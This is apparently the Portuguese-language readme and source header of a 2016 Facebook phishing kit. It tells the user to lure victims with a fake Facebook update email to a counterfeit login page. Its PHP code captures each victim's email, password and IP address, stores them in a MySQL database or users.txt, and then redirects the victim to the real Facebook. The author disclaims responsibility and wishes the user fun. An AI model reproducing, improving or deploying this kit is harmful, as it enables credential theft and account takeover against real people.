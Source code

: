 	Fishing Facebook
	Criado por: _Shadow
	Data: 02/06/2016

	* COMO USAR: Este sistema funciona da seguinte forma, a vitma entra em seu fishing graças a algum tipo de
	* engenharia social, como por exemplo: falso suposto email do facebook dizendo que estão fazendo
	* atualizações novas e para testar está atualização a pessoa deve executar o Login em sua Página fake
	* do facebook, nisso você irá conseguir capturar as informações da vitima, que será enviada ou para um
	* banco de dados, ou para o arquivo users.txt

	* OBS: Conheçimento não é crime, apenas estou dando a você uma simples ferramenta, mas o responsavel
	* pelo modo que irá usar está ferramenta é você

	* Em caso de BUGS por favor entre em contato comigo :D

	* O sisteminha contem 2 funções de exportação dos dados, em primeiro lugar temos por Banco de Dados 
	* MYSQL, que garante uma segurança maior com os dados recebidos e capturados de suas vitimas, em
	* segundo lugar temos o envio dos dados capturados para um arquivo chamado users.txt
	* Caso queira usar a função users.txt você deverá deletar a pasta db.php e depois no arquivo
	* login.php voce deverá apagar:

	################################################### Nº 1
	include_once('db.php');
	$pdo = conectar();

	# Info
	$login = $_POST['email'];
	$passw = $_POST['pass'];
	$ipmac = $_SERVER['REMOTE_ADDR'];

	$add = $pdo->prepare("INSERT INTO users (login,senha,ip) VALUES (:login,:senha,:ip)");

	$add->bindValue(":login", $login);
	$add->bindValue(":senha", $passw);
	$add->bindValue(":ip", $ipmac);
	$add->execute();
	header("Location: http://www.facebook.com");
	################################################### end
	
	* e depois que apagar estas linhas basta tirar o /* */ da segunda função
	* Caso queira usar a função do Banco de Dados, basta configurar o arquivo db.php de acordo
	* com as preferencias de sua host e upar o arquivo fishingfb.sql em seu localhost
	*
	* Divirta-se By: _Shadow

